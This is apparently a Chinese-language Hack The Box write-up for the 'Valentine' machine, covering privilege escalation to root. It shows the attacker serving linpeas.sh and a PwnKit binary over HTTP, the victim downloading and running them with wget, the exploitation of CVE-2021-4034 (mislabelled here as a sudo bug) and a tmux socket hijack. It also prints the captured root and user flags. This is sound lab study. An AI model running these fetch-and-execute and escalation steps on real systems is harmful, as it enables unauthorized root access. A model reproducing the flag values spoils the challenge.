 

## root shell

上传linpeas.sh进行信息搜集，利用Python和wget进行上传

```shell
# kali
┌──(xavier㉿kali)-[~/Desktop/HTB/tools]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.79 - - [29/Apr/2023 17:10:53] "GET /linpeas.sh HTTP/1.1" 200 -

# Victim
hype@Valentine:/tmp$ wget http://10.10.14.22/linpeas.sh
hype@Valentine:/tmp$ chmod +x linpeas.sh
hype@Valentine:/tmp$ ./linpeas.sh > result.txt
```

利用同样的方式，再把result.txt下载到本地

### CVE-2021-4034

查看result.txt，发现系统存在sudo CVE-2021-4034漏洞，可利用该漏洞提权。

![image-20230429172250485](/resource/012-Valentine.assets/image-20230429172250485.png)

```shell
hype@Valentine:/tmp$ wget http://10.10.14.22/PwnKit
hype@Valentine:/tmp$ chmod +x PwnKit 
hype@Valentine:/tmp$ ./PwnKit 
root@Valentine:/tmp# id  
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),124(sambashare),1000(hype)
root@Valentine:/tmp# 
```

![image-20230429172533596](/resource/012-Valentine.assets/image-20230429172533596.png)

```shell
root@Valentine:/tmp# cat /root/root.txt 
adf6f323296f600cec9294d64c6c9bc1
root@Valentine:/tmp# cat /home/hype/user.txt 
0b946d1f7c12bb371585d67c10557dc8
```

### tmux提权

查看result.txt，发现tmux session

![image-20230429174112440](/resource/012-Valentine.assets/image-20230429174112440.png)

通过tmux进行提权，成功获取root权限：

```shell
hype@Valentine:/tmp$ tmux -S /.devs/dev_sess

root@Valentine:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/tmp# 
```
